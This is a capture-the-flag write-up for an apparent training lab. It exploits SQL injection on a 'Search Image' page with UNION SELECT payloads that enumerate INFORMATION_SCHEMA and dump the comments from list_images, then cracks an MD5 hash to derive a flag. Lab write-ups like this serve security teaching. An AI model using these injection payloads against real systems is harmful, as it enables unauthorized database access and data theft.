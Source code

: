 ## EXPLANATION
In the "Search Image" page (http://10.12.181.103/?page=searchimg) we gonna use the sql injection to get all the tables names and their column names by using 
```
 1 OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME  FROM INFORMATION_SCHEMA.COLUMNS 
```
after listing the names, we can check on the table "list_images" and see its columns, the most important one here is this one
```
Title: comment
Url : list_images
```
so we can use a script to search on all the comments and we can use another column's name or use the same one twice like :
```
1 OR 1=1 UNION SELECT url, comment FROM list_images
```

or

```
1 OR 1=1 UNION SELECT title, comment FROM list_images
```
the most important message in all the cases is this one:
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
so we decode the lowercase, we use this website 
```
https://crackstation.net/
```
the result is :
```
albatroz
```
so after hashing "albatroz" with SH256 tool we get the flag:
```
f2a29020ef3132XXXXXXXXXXXXXX
```